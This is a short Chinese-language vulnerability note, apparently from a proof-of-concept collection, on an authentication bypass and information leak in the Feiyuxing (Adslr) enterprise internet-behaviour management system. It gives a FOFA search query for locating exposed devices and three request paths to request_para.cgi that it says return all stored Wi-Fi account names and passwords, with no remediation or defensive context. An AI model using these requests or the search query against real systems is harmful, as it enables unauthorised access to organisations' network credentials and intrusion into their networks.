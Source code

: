 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

> [!NOTE]
>
> 飞鱼星 企业级智能上网行为管理系统

## FOFA

> [!NOTE]
>
> title="飞鱼星企业级智能上网行为管理系统"

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![](image/fy-4.png)

## Goby & POC

> [!NOTE]
>
> Adslr Enterprise online behavior management system Information leakage

![](image/fy-5.png)

